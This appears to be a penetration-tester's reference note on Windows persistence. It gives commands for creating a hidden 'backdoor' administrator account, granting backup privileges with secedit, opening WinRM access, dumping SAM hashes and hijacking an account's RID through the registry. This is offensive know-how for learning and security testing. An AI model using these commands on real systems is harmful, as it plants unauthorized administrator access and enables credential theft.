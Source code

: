 ```yaml
---
category: Uncategorized
tags: []
---
```

### Adding users to privileged groups
```powershell
# Creating user
net user backdoor /add

# Adding user to the administrators group
net localgroup "administrators" backdoor /add

# Adding user to "Backup Operators" group
net localgroup "Backup Operators" backdoor /add

# Adding user to "Remote Management Users" for RDP
net localroup "Remote Management users" backdoor /add
```

- By default, the UAC strips the remote user of it's administrative privs, this can be disabled. [LocalAccountTokenFilterPolicy](Policies.md#LocalAccountTokenFilterPolicy)
- As a member of "Backup Operators", we can now save system and sam hives from the regsitery and use Impacket to get the system hash. [secretsdump.py](TechLexicon/Penetration%20Testing/Reference/Tools/Impacket.md#secretsdump.py)

### Assigning privileges to users.
- By default, the 'backup Operators' have two privileges:
	- SeBackupPrivilege: User can read write any file in the system, ignoring any DACL in place
	- SeRestorePrivilege: User can read read any file in the system, ignoring any DACL in place
- A user can be assigned these privileges using `secedit` command.
```powershell
# Export current configuration
secedit /export /cfg config.inf

# Edit the config.inf to add the username in front of the privielge
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor

# convert the config.inf file to config.sdb
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cnf /config.inf
```

### Enable win-rm without adding user to "Remote Management Users"
- Add the user to the security descriptor of Win-RM.
```powershell
# this will launch the configuration windows for the Win-RM's security descriptor
Set-PSSessionconfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```

### RID hijacking
[SID](TechLexicon/Penetration%20Testing/Reference/Windows/Windows%20Internals/Uncategorized/SID.md)
- Changing the effective RID of a user to RID of an administrator so that when the user logs in, it will have the same access tokens as an administrator.
- Effective RID is stored in `F` key at:
```cmd
HKLM\SAM\SAM\Domain\Account\Users\RID(hex)
```
- SAM is restricted to SYSTEM only.
```powershell
PsExec64.exe -i -s regedit
```
- Effective RID is located at `0x30` location in little endian format
- After changing the effective RID to 500 (0x01F4), the next time users logs in, it will get Administrators privileges.